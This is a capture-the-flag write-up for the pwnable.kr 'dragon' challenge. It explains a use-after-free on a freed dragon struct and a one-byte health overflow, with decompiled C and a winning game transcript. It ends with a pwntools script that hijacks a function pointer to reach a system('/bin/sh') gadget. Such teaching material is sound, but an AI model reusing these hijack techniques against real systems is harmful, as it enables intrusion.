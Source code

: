
There is a lot going on in the `dragon` binary so I won't be diving deeply into each and every function.
You can check the [call graph visualization](#call_graph) for a general overview of the control flow.
Briefly `main` unbuffers the iostreams and calls `PlayGame` and
`PlayGame` acts as the Main Menu. Things get interesting when we get to `FightDragon`.
The following code is a tweaked version of Ghidra's decompilation output:

```c
struct Dragon {
    void (*info_function)(struct Dragon*);
    int type;
    char health;
    char regeneration;
    int damage;
};

struct Player {
    int type;
    int health;
    int mana;
    void (*info_function)(struct Player*)
}

void FightDragon(int player_type)

{
    Player *player;
    Dragon *dragon;
    char *name;
    int is_win;

    player = (Player *)malloc(0x10);
    dragon = (Dragon *)malloc(0x10);
    if ((Count & 1) == 0) {
        Count = Count + 1;
        dragon->type = 0;
        dragon->health = 0x32;
        dragon->regeneration = 5;
        dragon->damage = 0x1e;
        dragon->info_function = PrintMonsterInfo;
        puts("Baby Dragon Has Appeared!");
    }
    else {
        Count = Count + 1;
        dragon->type = 1;
        dragon->health = 0x50;
        dragon->regeneration = 4;
        dragon->damage = 10;
        dragon->info_function = PrintMonsterInfo;
        puts("Mama Dragon Has Appeared!");
    }
    if (player_type == 1) {
        player->type = 1;
        player->health = 0x2a;
        player->mana = 0x32;
        player->info_function = PrintPlayerInfo;
        is_win = PriestAttack(player,dragon);
    }
    else {
        if (player_type != 2) {
            return;
        }
        player->type = 2;
        player->health = 0x32;
        player->mana = 0;
        player->info_function = PrintPlayerInfo;
        is_win = KnightAttack(player,dragon);
    }
    if (is_win == 0) {
        puts("\nYou Have Been Defeated!");
    }
    else {
        puts("Well Done Hero! You Killed The Dragon!");
        puts("The World Will Remember You As:");
        name = (char *)malloc(0x10);
        __isoc99_scanf(&DAT_08049108,name);
        puts("And The Dragon You Have Defeated Was Called:");
        (*(code *)dragon->info_function)(dragon);
    }
    free(player);
    return;
}
```

`FightDragon` sets up the dragon and the player for the game
after which it starts the game (calling either `KnightAttack` or `PriestAttack`)
Now `KnightAttack` and `PriestAttack` do pretty much what you see
when you play the game from the terminal. There are no logical bugs in them but
what's crucial to note is that upon return they free the dragon variable.

But... look at the win branch of the `FightDragon` function(last `else` block).
It calls `dragon->info_function` even though `dragon` is at that time a dangling pointer.
You might think that this would segfault but there is actually a convenient `malloc`
2 lines before which ends up allocating the same memory block that the dragon occupied
(so `name == dragon` would evaluate to `true`).
Hmm... so the ` (*(code *)dragon->info_function)(dragon); ` would actually be a call to whatever
we write in `name`, Good, then we could write an arbitrary address redirecting code execution to it.
if we could just figure out how to win in the first place...

At first glance It looks impossible, no matter the dragon, no matter the hero you choose
you will always end up dying before the dragon. But there is another way of winning.
What might have struck you as odd in the above decompilation is that the dragon health
is stored in a char variable. That means that the dragon health can be in the range `[-128, 127]`.
We saw that trying to reduce the dragon health is futile but what if we increased it so much
that we overflowed it? I reckon the only way to do this is by using the `Priest` against
`Mama Dragon`. The idea is to let `Mama Dragon` regenerate until her health overflows:

<details>
<summary style="font-size: 1.2em;">
Expand to see how to win
</summary>

```
❮ nc pwnable.kr 9004
Welcome to Dragon Hunter!
Choose Your Hero
[ 1 ] Priest
[ 2 ] Knight
1
Baby Dragon Has Appeared!
[ Baby Dragon ] 50 HP / 30 Damage / +5 Life Regeneration.
[ Priest ] 42 HP / 50 MP
	[ 1 ] Holy Bolt [ Cost : 10 MP ]
		Deals 20 Damage.
	[ 2 ] Clarity [ Cost : 0 MP ]
		Refreshes All Mana.
	[ 3 ] HolyShield [ Cost: 25 MP ]
		You Become Temporarily Invincible.
2
Clarity! Your Mana Has Been Refreshed
But The Dragon Deals 30 Damage To You!
And The Dragon Heals 5 HP!
[ Baby Dragon ] 55 HP / 30 Damage / +5 Life Regeneration.
[ Priest ] 12 HP / 50 MP
	[ 1 ] Holy Bolt [ Cost : 10 MP ]
		Deals 20 Damage.
	[ 2 ] Clarity [ Cost : 0 MP ]
		Refreshes All Mana.
	[ 3 ] HolyShield [ Cost: 25 MP ]
		You Become Temporarily Invincible.
2
Clarity! Your Mana Has Been Refreshed
But The Dragon Deals 30 Damage To You!
And The Dragon Heals 5 HP!

You Have Been Defeated!
Choose Your Hero
[ 1 ] Priest
[ 2 ] Knight
1
Mama Dragon Has Appeared!
[ Mama Dragon ] 80 HP / 10 Damage / +4 Life Regeneration.
[ Priest ] 42 HP / 50 MP
	[ 1 ] Holy Bolt [ Cost : 10 MP ]
		Deals 20 Damage.
	[ 2 ] Clarity [ Cost : 0 MP ]
		Refreshes All Mana.
	[ 3 ] HolyShield [ Cost: 25 MP ]
		You Become Temporarily Invincible.
3
HolyShield! You Are Temporarily Invincible...
But The Dragon Heals 4 HP!
[ Mama Dragon ] 84 HP / 10 Damage / +4 Life Regeneration.
[ Priest ] 42 HP / 25 MP
	[ 1 ] Holy Bolt [ Cost : 10 MP ]
		Deals 20 Damage.
	[ 2 ] Clarity [ Cost : 0 MP ]
		Refreshes All Mana.
	[ 3 ] HolyShield [ Cost: 25 MP ]
		You Become Temporarily Invincible.
3
HolyShield! You Are Temporarily Invincible...
But The Dragon Heals 4 HP!
[ Mama Dragon ] 88 HP / 10 Damage / +4 Life Regeneration.
[ Priest ] 42 HP / 0 MP
	[ 1 ] Holy Bolt [ Cost : 10 MP ]
		Deals 20 Damage.
	[ 2 ] Clarity [ Cost : 0 MP ]
		Refreshes All Mana.
	[ 3 ] HolyShield [ Cost: 25 MP ]
		You Become Temporarily Invincible.
2
Clarity! Your Mana Has Been Refreshed
But The Dragon Deals 10 Damage To You!
And The Dragon Heals 4 HP!
[ Mama Dragon ] 92 HP / 10 Damage / +4 Life Regeneration.
[ Priest ] 32 HP / 50 MP
	[ 1 ] Holy Bolt [ Cost : 10 MP ]
		Deals 20 Damage.
	[ 2 ] Clarity [ Cost : 0 MP ]
		Refreshes All Mana.
	[ 3 ] HolyShield [ Cost: 25 MP ]
		You Become Temporarily Invincible.
3
HolyShield! You Are Temporarily Invincible...
But The Dragon Heals 4 HP!
[ Mama Dragon ] 96 HP / 10 Damage / +4 Life Regeneration.
[ Priest ] 32 HP / 25 MP
	[ 1 ] Holy Bolt [ Cost : 10 MP ]
		Deals 20 Damage.
	[ 2 ] Clarity [ Cost : 0 MP ]
		Refreshes All Mana.
	[ 3 ] HolyShield [ Cost: 25 MP ]
		You Become Temporarily Invincible.
3
HolyShield! You Are Temporarily Invincible...
But The Dragon Heals 4 HP!
[ Mama Dragon ] 100 HP / 10 Damage / +4 Life Regeneration.
[ Priest ] 32 HP / 0 MP
	[ 1 ] Holy Bolt [ Cost : 10 MP ]
		Deals 20 Damage.
	[ 2 ] Clarity [ Cost : 0 MP ]
		Refreshes All Mana.
	[ 3 ] HolyShield [ Cost: 25 MP ]
		You Become Temporarily Invincible.
2
Clarity! Your Mana Has Been Refreshed
But The Dragon Deals 10 Damage To You!
And The Dragon Heals 4 HP!
[ Mama Dragon ] 104 HP / 10 Damage / +4 Life Regeneration.
[ Priest ] 22 HP / 50 MP
	[ 1 ] Holy Bolt [ Cost : 10 MP ]
		Deals 20 Damage.
	[ 2 ] Clarity [ Cost : 0 MP ]
		Refreshes All Mana.
	[ 3 ] HolyShield [ Cost: 25 MP ]
		You Become Temporarily Invincible.
3
HolyShield! You Are Temporarily Invincible...
But The Dragon Heals 4 HP!
[ Mama Dragon ] 108 HP / 10 Damage / +4 Life Regeneration.
[ Priest ] 22 HP / 25 MP
	[ 1 ] Holy Bolt [ Cost : 10 MP ]
		Deals 20 Damage.
	[ 2 ] Clarity [ Cost : 0 MP ]
		Refreshes All Mana.
	[ 3 ] HolyShield [ Cost: 25 MP ]
		You Become Temporarily Invincible.
3
HolyShield! You Are Temporarily Invincible...
But The Dragon Heals 4 HP!
[ Mama Dragon ] 112 HP / 10 Damage / +4 Life Regeneration.
[ Priest ] 22 HP / 0 MP
	[ 1 ] Holy Bolt [ Cost : 10 MP ]
		Deals 20 Damage.
	[ 2 ] Clarity [ Cost : 0 MP ]
		Refreshes All Mana.
	[ 3 ] HolyShield [ Cost: 25 MP ]
		You Become Temporarily Invincible.
2
Clarity! Your Mana Has Been Refreshed
But The Dragon Deals 10 Damage To You!
And The Dragon Heals 4 HP!
[ Mama Dragon ] 116 HP / 10 Damage / +4 Life Regeneration.
[ Priest ] 12 HP / 50 MP
	[ 1 ] Holy Bolt [ Cost : 10 MP ]
		Deals 20 Damage.
	[ 2 ] Clarity [ Cost : 0 MP ]
		Refreshes All Mana.
	[ 3 ] HolyShield [ Cost: 25 MP ]
		You Become Temporarily Invincible.
3
HolyShield! You Are Temporarily Invincible...
But The Dragon Heals 4 HP!
[ Mama Dragon ] 120 HP / 10 Damage / +4 Life Regeneration.
[ Priest ] 12 HP / 25 MP
	[ 1 ] Holy Bolt [ Cost : 10 MP ]
		Deals 20 Damage.
	[ 2 ] Clarity [ Cost : 0 MP ]
		Refreshes All Mana.
	[ 3 ] HolyShield [ Cost: 25 MP ]
		You Become Temporarily Invincible.
3
HolyShield! You Are Temporarily Invincible...
But The Dragon Heals 4 HP!
[ Mama Dragon ] 124 HP / 10 Damage / +4 Life Regeneration.
[ Priest ] 12 HP / 0 MP
	[ 1 ] Holy Bolt [ Cost : 10 MP ]
		Deals 20 Damage.
	[ 2 ] Clarity [ Cost : 0 MP ]
		Refreshes All Mana.
	[ 3 ] HolyShield [ Cost: 25 MP ]
		You Become Temporarily Invincible.
2
Clarity! Your Mana Has Been Refreshed
But The Dragon Deals 10 Damage To You!
And The Dragon Heals 4 HP!
Well Done Hero! You Killed The Dragon!
The World Will Remember You As:
```
</details>

Nice! We won. What's left is to pass to `name` the address we want to jump to.
There is a convenient `system("/bin/sh")` gadget at address `0x08048dbf` in `SecretLevel()` function
(called from `PlayGame()` when player inputs 3) so let's jump to it.

Here is the final exploit:
```python
from pwn import *

proc = remote("pwnable.kr", port=9004)

# Lose on purpose against Baby Dragon.
proc.sendline(b'1')
proc.sendline(b'2')
proc.sendline(b'2')

# Win against Mama Dragon.
proc.sendline(b'1')

for i in range(4):
    proc.sendline(b'3')
    proc.sendline(b'3')
    proc.sendline(b'2')

proc.sendline(p32(0x08048dbf))
proc.interactive()
proc.close()
```

<details id="call_graph">
<summary style="font-size: 1.2em;">
Call graph visualization
</summary>

![dragon_main](visuals/dragon_main.png)
</details>
